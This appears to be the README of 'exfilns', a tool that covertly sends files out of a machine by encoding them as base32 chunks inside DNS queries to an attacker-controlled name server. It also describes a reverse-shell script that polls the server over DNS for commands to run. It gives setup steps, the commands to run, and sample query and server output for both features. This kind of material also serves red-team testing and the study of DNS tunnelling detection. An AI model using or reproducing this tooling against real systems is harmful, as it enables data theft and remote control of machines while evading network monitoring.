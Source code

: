 # exfilns
Setup: 
have a NS record for the domain you want to use pointed to a server you own

As an example, I run exfil.baki.es pointed to a digital ocean droplet

```
$ dig +short exfil.baki.es NS
ubuntu-nyc1-01.cloud.baki.es.
```

On the server (ubuntu-nyc1-01.cloud.baki.es in the above example) run ns.py with root permissions (to bind to port 53) 

```
$ python3 ns.py --origin exfil.baki.es
Started dns server
```

from any Linux machine you should be able to run the fileupload.sh script to upload a file to that server and given the domain being used

With the examples above an output will look something like this from the client:

```
$ fileupload.sh /path/to/file exfil.baki.es
This file will take 7 dns requests
"Ready"
start-7.gpvkwjwoh6.fu.exfil.baki.es
krugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayj.0.gpvkwjwoh6.fu.exfil.baki.es
aorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4.1.gpvkwjwoh6.fu.exfil.baki.es
zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg.2.gpvkwjwoh6.fu.exfil.baki.es
5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzs.3.gpvkwjwoh6.fu.exfil.baki.es
ayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkru.4.gpvkwjwoh6.fu.exfil.baki.es
gs4zanfzsayjaorsxg5akkrugs4zanfzsayjaorsxg5akkrugs4zanfzsayjaor.5.gpvkwjwoh6.fu.exfil.baki.es
sxg5akkrugs4zanfzsayjaorsxg5ak.6.gpvkwjwoh6.fu.exfil.baki.es
```


And like this from the server output will now have something like this:
```
New file incoming, lines: 7
File: gpvkwjwoh6 14 % complete
File: gpvkwjwoh6 28 % complete
File: gpvkwjwoh6 42 % complete
File: gpvkwjwoh6 57 % complete
File: gpvkwjwoh6 71 % complete
File: gpvkwjwoh6 85 % complete
File: gpvkwjwoh6 100 % complete
File: gpvkwjwoh6 written to disk

```

The file is given a unique handle (above `gpvkwjwoh6`) and is written in the same folder as the python script and is base32 encoded 

There is also some basic reverse shell capabilities by using the revshell script which will check for a new command every 5 seconds

Current implementation only responds with the exit status from the command run 

You can change the command the server sends by typing it in while the dns server is running


When a client reports back to the dns server it reports the host's ID generated by the revshell script and the exit status. 

true and false are inputted here and the host respons with the exit status of true and false 
```
true
host: teo1y exited 0
false
host: teo1y exited 1
```

The client output looks like this:
```
Running true
Request: 0.teo1y.e95p7x5g62.ack.c2.exfil.baki.es
Running false
Request: 1.teo1y.e0z3zxuenu.ack.c2.exfil.baki.es
```


A better dedicated infill module is a WIP
